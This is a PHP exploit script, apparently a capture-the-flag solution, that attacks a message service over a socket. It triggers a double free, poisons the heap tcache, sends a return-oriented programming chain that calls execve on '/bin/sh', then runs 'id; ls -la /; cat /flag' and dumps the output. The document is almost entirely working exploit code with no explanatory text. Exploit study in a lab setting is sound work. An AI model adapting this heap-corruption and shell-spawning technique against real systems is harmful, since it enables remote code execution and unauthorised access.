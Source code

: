 ```php
printf("[+] Done in %f seconds\n", microtime(true) - $time);
printf("\n");

$contact = [
	["XeR", "127.0.0.1"],
];

contact_add($t, $contact);

$size = 0x80;
printf("[*] Double free (size = %X)\n", $size);
msg_add($t, 0, str_repeat("A", $size));
msg_del($t, 0);

/* glitched message */
$buffer = pack("NNN", 4, 0, 0x4000);
$t->write($buffer);
xdr_expect($t, "Add message success!\n");

msg_del($t, 0);


printf("[*] Poison tcache\n");
$payload = pack("Q", 0x006b9140);
$payload = str_pad($payload, $size);
msg_add($t, 0, $payload);
msg_add($t, 0, str_repeat("C", $size));

$payload = pack("Q*",
	0x00493c4f, // pop rdi (to skip the xchg)
	0x00468a62, // xchg eax, esp (ok because 32 bits)

	0x00493c4f, 0x006b9140 + 8 * 12, // pop rdi /bin/sh
	0x0046aa53, 0, // pop rsi
	0x004841d6, 59, 0, 0, // pop rax, rdx, rbx

	0x004878d5, // syscall
	0x0048fc98, // int3
);
$payload .= "/bin/sh\0";
$payload = str_pad($payload, $size);

printf("[*] Execute ROP chain\n");
msg_add($t, 0, $payload, true);

printf("[*] Sending commands...\n");
$t->write("id; ls -la /; cat /flag\n");


dump:
printf("[!] Dumping...\n");
while($buffer = $t->read(4096)) {
	//printf("%s", hexdump($buffer));
	printf("%s", $buffer);
}
```
